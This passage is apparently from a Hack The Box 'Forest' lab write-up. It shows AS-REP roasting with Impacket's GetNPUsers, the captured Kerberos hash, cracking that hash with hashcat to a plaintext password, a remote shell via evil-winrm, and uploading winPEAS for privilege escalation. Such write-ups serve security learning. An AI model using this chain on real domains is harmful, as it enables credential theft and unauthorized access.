 ```bash
┌──(kali㉿kali)-[~/Documents/hackthebox/forest]
└─$ python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 htb/svc-alfresco -no-pass 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:6510e231f7bd073beb207c9c8b0312f1$9ee65c44e5fb88dd1a6e59b723eff51cf8cc3d991c7070173d0467ce8be8f1d700e7cfc92037501e59cfd3126649041a63f9cb0ea50e4217baf607d4fdfc472f28c7ff95d6de871bd57774d0eaf969a32f9d23753d723e6917ada3e25a22e799552da96c7ff8e08cd50acdb8b8110fdfb0dc539312da2c5ced243df8f5934dae41789ecbbf7b96ef67b731372424aea72e616c510677f644926216f67dea198bda8a0a174df8253af33c3aae6b16b3b5209dd51fc8ef2a29d5bbb163c0593eed4f4974dbe82833582d4f4ccdc0f1e2d555cac02d7472f52595f157c52708a363
```

- Now we can crack the password with hashcat `hashcat -m 18200  hash.txt /usr/share/wordlists/rockyou.txt` And we get the password it is `s3rvice`  

![hashcat](../.res/2022-09-24-20-40-54.png)  

- Let's try to get a shell with evil-winrm `evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'`

## Privesc

- Let's upload winpeas with evil-winrm it is easy we just have to use the upload command `upload /home/kali/Documents/hackthebox/forest/winPEASany.exe`
- Let's also take powerup
- This does not really go anywhere.
- Let's use Bloodhound, after all the box is named "forest"  
